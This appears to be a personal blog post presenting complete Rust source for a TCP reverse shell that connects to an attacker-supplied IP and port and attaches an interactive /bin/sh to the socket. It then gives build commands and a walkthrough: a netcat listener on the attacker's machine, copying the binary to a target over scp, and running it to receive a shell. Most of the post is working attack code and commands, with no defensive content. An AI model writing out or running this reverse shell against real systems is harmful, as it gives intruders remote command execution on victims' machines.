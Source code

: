 ```yaml
---
layout: post
title:  "A TCP Reverse Shell with Rust"
date:   2022-07-31 00:30:00
tags: rust tcp reverse shell
---
```


A reverse shell, also known as a remote shell or “connect-back shell” is used to initiate a shell session and execute commands in a target system.

![IPS](/img/tcp_reverse_shell/tcp_reverse_shell.png)

There are many examples available in [different programming languages](https://www.revshells.com/), or it is possible generating reverse shells with tools like [meterpreter](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/osx/x64/meterpreter/reverse_tcp.md) and the metasploit framework.

Furthermore, reverse shells can be implemented for any operating system and network protocols such as TCP, UDP, ICMP or over encrypted channels with SSL.

However, I'm going to use the Rust programming language and the cargo tool to generate a small program that can be 
executed as a TCP reverse shell in the target's system. Additionally, this code can be compiled for most of the Unix flavors. 

# TCP Reverse Shell

{% highlight rust linenos %}
use std::env;
use std::fs::File;
use std::net::TcpStream;
use std::os::unix::io::{FromRawFd, RawFd};
use std::os::unix::prelude::AsRawFd;
use std::process::Command;

fn main() {
    let args: Vec<String> = env::args().collect();
    if args.len() < 2 {
        panic!("Usage: reverse_shell <IP> <PORT>");
    }

    let ip = &args[1];
    let port = &args[2];

    let tcp_stream = match TcpStream::connect(format!("{ip}:{port}")) {
        Err(why) => panic!("Connection error: {why}"),
        Ok(tcp_stream) => tcp_stream,
    };

    let raw_fd: RawFd = tcp_stream.as_raw_fd();

    let mut rev_shell = match Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { File::from_raw_fd(raw_fd) })
        .stdout(unsafe { File::from_raw_fd(raw_fd) })
        .stderr(unsafe { File::from_raw_fd(raw_fd) })
        .spawn()
    {
        Err(why) => panic!("Error: {why}"),
        Ok(child) => child,
    };

    match rev_shell.wait() {
        Err(why) => panic!("Error: {why}"),
        Ok(exit_status) => exit_status,
    };
}
{% endhighlight %}

## How to compile the code

{% highlight bash linenos %}
cargo build --release
cargo install
{% endhighlight %}

* [Source code](/src/tcp_reverse_shell/reverse_shell.tar.xz)  

**Note:* if you require to compile the code from a unix flavor to run in another one, please follow the [Rust cross-compilation instructions](https://rust-lang.github.io/rustup/cross-compilation.html).

## How to test the TCP Reverse Shell

**1** Run a TCP server listening on the 4321 port in the attacker's system.
  {% highlight bash %}
    netcat -l -s 10.10.10.1 -p 4321
  {% endhighlight %}

**2**  Copy the reverse shell program to the target's system.
  {% highlight bash %}
    scp reverse_shell demo@10.10.10.2:
  {% endhighlight %}

**3**  Run the reverse_shell from the target's system
  {% highlight bash %}
    ./reverse_shell  10.10.10.1 4321
  {% endhighlight %}

**4** The TCP server will receive a shell session in the attacker's system.


I hope you have enjoyed this small piece of code and have happy weekend.

# References

* [Install Rust](https://www.rust-lang.org/tools/install)
* [The Cargo Book](https://doc.rust-lang.org/cargo/)
* [Module std::fs](https://doc.rust-lang.org/std/fs/)
* [Module std::net](https://doc.rust-lang.org/std/net/)
* [Module std::process](https://docs.rs/rustc-std-workspace-std/1.0.1/std/process/index.html)
